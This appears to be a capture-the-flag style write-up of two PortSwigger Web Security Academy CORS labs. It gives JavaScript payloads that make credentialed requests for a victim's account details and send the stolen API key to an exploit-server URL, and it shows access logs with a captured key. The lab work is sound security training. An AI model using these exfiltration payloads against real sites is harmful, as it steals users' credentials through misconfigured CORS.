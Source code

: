 # Cross Origin Resource Sharing

## CORS vulnerability with basic origin reflection
https://portswigger.net/web-security/cors/lab-basic-origin-reflection-attack

Reading the source code after logging in reveals an endpoint which was used

![](Pasted%20image%2020220514111546.png)

```html
<div>Your API Key is: <span id=apikey></span></div>
<script>
	fetch('/accountDetails', {credentials:'include'})
	.then(r => r.json())
	.then(j => document.getElementById('apikey').innerText = j.apikey)
</script>
```

Deliver this exploit to the user through the exploit server

```
...
Origin: https://exploit-ac9f1f6d1e659a4fc0f1543401340027.web-security-academy.net
```

```html
<div>Your API Key is: <span id=apikey></span></div>
<script>
    var EXPURL = "https://exploit-ac9f1f6d1e659a4fc0f1543401340027.web-security-academy.net";
    fetch('https://ac0e1f7b1ed99a63c0545434007100a1.web-security-academy.net/accountDetails', {credentials:'include'})
        .then(r => r.json())
        .then(j => fetch(EXPURL+'/'+j.apikey, {credentials:'include'}))
</script>
```

Check the logs

```
172.31.30.154   2022-05-28 17:01:14 +0000 "GET /Rsa2DyCqkImZEW6285UCrbS17fwEXdJp HTTP/1.1" 404 "User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.64 Safari/537.36"
116.14.150.8    2022-05-28 17:01:14 +0000 "GET / HTTP/1.1" 200 "User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/102.0.5005.61 Safari/537.36"
```


https://portswigger.net/web-security/cors/lab-null-origin-whitelisted-attack

```
<div>Your API Key is: <span id=apikey></span></div>
<script>
    var MAINURL = "https://acc11fe11f302f78c122262b0074007b.web-security-academy.net";
    var EXPURL = "https://exploit-ac7f1f1f1ff02f3dc1f0264b01b200f2.web-security-academy.net";
    fetch(MAINURL+'/accountDetails', {credentials:'include'})
        .then(r => r.json())
        .then(j => fetch(EXPURL+'/'+j.apikey, {credentials:'include'}))
</script>
```

